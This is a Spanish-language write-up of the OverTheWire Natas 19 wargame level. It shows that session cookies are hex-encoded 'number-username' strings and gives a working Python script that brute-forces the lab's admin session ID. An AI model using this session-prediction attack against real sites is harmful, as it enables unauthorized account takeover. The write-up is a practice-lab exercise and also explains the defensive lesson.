

# Natas 19 – OverTheWire

El nivel muestra nuevamente un formulario de login similar al anterior.
Al intentar acceder con un usuario cualquiera, vemos algo como:

```url
You are logged in as a regular user.
```

Y, como en Natas 18, se nos asigna una cookie de sesión llamada `PHPSESSID`.

## Analisis

Al inspeccionar la cookie (DevTools → Application → Cookies), vemos que ahora el valor no es un número simple, sino algo como:

```php
PHPSESSID = 3239332d61646d696e
```

A simple vista parece una cadena aleatoria, pero si la decodificas de hexadecimal, obtienes:

```url
293-admin
```

Puedes comprobarlo con:

```bash
echo 3239332d61646d696e | xxd -r -p
```

Eso significa que el ID de sesión incluye el número de sesión y el nombre de usuario concatenados:

```url
<numero>-<username>
```

El servidor genera la cookie de sesión así (probablemente algo como esto en PHP):

```php
$session_id = rand(1, 640) . "-" . $username;
setcookie("PHPSESSID", bin2hex($session_id));
```

Sabiendo esto podemos generar todos los posibles `PHPSESSID` combinando números del 1 al 640 con `-admin`, codificándolos en hex y probándolos uno a uno.

Para ello nos vamos a crear un script en pytho que lo haga por nosotros.

```python
import requests, binascii, time
from pwn import log

url = "http://natas19.natas.labs.overthewire.org"
auth = ('natas19', '<ContraseñaNatas19>')

p1 = log.progress("Fuerza bruta")
p1.status("Iniciando ataque")

time.sleep(5)

for i in range(1, 641):
    session = f"{i}-admin"
    cookie_val = binascii.hexlify(session.encode()).decode()
    cookies = {'PHPSESSID': cookie_val}
    r = requests.get(url, auth=auth, cookies=cookies)

    p1.status(cookies)

    if "You are an admin" in r.text:
        print(f"[+] Admin Encontrado con ID: {i}")
        print(r.text)
        break
```

Con esto conseguimos el `phpsessid` como en el ejercicio anterior:



## Conclusion

- Codificar ≠ proteger. `Base64/hex/bi` no es un mecanismo de seguridad.
- Si puedes manipular el valor de la cookie y el servidor lo interpreta directamente, puedes **elevar privilegios** fácilmente.
- Siempre usa identificadores de sesión aleatorios, no derivados de información del usuario.
- Esto se llama **Session Prediction / Session Fixation**.
